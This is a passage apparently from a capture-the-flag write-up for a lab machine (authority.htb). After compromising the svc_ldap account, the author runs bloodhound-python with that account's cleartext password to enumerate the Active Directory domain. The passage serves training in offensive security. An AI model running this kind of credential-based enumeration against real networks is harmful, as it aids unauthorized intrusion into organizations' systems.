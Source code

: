 Now that we compromised svc_ldap let's use the compromised account to enumerate the domain.

```sh
bloodhound-python -c all \
	-d authority.htb \
	-u 'svc_ldap@authority.htb' \
	-p 'lDaP_1n_th3_cle4r!' \
	-ns 10.129.12.250 \
	--zip
```

![](images/winrm.png)

